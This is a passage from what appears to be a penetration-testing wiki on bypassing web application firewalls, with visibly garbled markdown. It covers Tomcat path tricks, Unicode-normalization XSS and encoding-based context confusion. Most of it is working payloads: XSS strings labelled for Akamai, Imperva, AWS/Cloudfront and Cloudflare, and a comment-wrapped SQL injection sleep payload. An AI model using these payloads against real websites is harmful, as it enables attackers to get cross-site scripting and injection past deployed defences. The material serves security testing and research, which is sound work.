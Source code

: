 ```

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
```
### Unicode Compatability 

Depending on the implementation of Unicode normalization (more info [[https://jlajara.gitlab.io/Bypass_WAF_Unicode)), characters that share Unicode compatability may be able to bypass the WAF and execute as the intended payload. Compatible characters can be found [here](https://www.compart.com/en/unicode|here]].

#### Example 

```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
```
### Bypass Contextual WAFs with encodings 

As mentioned in [[https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization|**this blog post**]], In order to bypass WAFs able to maintain a context of the user input we could abuse the WAF techniques to actually normalize the users input.

For example, in the post it's mentioned that **Akamai URL decoded a user input 10 times**. Therefore something like `<input/%2525252525252525253e/onfocus` will be seen by Akamai as `<input/>/onfocus` which **might think that it's ok as the tag is closed**. However, as long as the application doesn't URL decode the input 10 times, the victim will see something like `<input/%25252525252525253e/onfocus` which is **still valid for a XSS attack**.

Therefore, this allows to **hide payloads in encoded components** that the WAF will decode and interpret while the victim won't.

Moreover, this can be done not only with URL encoded payloads but also with other encodings such as unicode, hex, octal...

In the post the following final bypasses are suggested:

- Akamai:`akamai.com/?x=<x/%u003e/tabindex=1 autofocus/onfocus=x=self;x['ale'%2b'rt'](999)>`
- Imperva:`imperva.com/?x=<x/\x3e/tabindex=1 style=transition:0.1s autofocus/onfocus="a=document;b=a.defaultView;b.ontransitionend=b['aler'%2b't'];style.opacity=0;Object.prototype.toString=x=>999">`
- AWS/Cloudfront:`docs.aws.amazon.com/?x=<x/%26%23x3e;/tabindex=1 autofocus/onfocus=alert(999)>`
- Cloudflare:`cloudflare.com/?x=<x tabindex=1 autofocus/onfocus="style.transition='0.1s';style.opacity=0;self.ontransitionend=alert;Object.prototype.toString=x=>999">`

It's also mentioned that depending on **how some WAFs understand the context** of the user input, it might be possible to abuse it. The proposed example in the blog is that Akamai allow(ed) to put anything between `/*` and `*/` (potentially because this is commonly used as comments. Therefore, a SQLinjection such as `/*'or sleep(5)-- -*/` won't be caught and will be valid as `/*` is the starting string of the injection and `*/` is commented.

These kind of context problems can also be used to **abuse other vulnerabilities than the one expected** to be exploited by the WAF (e.g. this could also be used to exploit a XSS).

### H2C Smuggling 

[[h2c-smuggling.md]]

### IP Rotation 

```